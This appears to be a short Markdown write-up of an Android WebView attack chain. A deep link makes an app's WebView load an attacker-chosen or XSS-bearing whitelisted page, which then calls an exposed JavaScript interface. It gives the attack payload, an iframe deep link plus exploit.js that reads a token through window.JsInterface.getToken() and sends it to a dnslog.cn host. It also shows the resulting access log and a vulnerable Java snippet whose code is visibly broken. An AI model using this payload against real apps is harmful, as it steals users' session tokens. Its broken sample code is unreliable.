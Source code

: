 ## Process
```mermaid
graph TD;
    Evil-html-->Call-by-DeepLink-Scheme;
    Call-by-DeepLink-Scheme-->Activity;
    Activity-->WebView;
    WebView-->Execute-JS;
    XSS-in-WhiteList-->Execute-JS;
    Execute-JS-->JsInterface;
    JsInterface-->window.getToken;
    JsInterface-->window.downloadFile;
    window.getToken-->Java-interface;
    window.downloadFile-->Java-interface;
```
## payload
- Evil.html
```html
<iframe src= "jayway://openapp/activity?param=http://whitelist.com/xss=exploit.js">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```

## Code
```java
public static deeplink(){
 Intent intent = this.getIntent();
 Uri uri = intent.getData();
 String scheme = uri.getScheme();
 String host = uri.getHost();
 if (scheme = "jayway" && host = "openapp") 
    param = uri.getQueryParameter("param");
}
   WebView webView = new Webview();
   WebSettings webSettings = webView.getSettings();
   webSettings.setJavaScriptEnabled(true);
# case 1 : parse any url  
   webView.loadUrl(param);
# case 2 : load any activity
   Intent intent2 = new Intent();
   intent2.setClassName(param);
   activity.startActivity(intent);
```


- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)
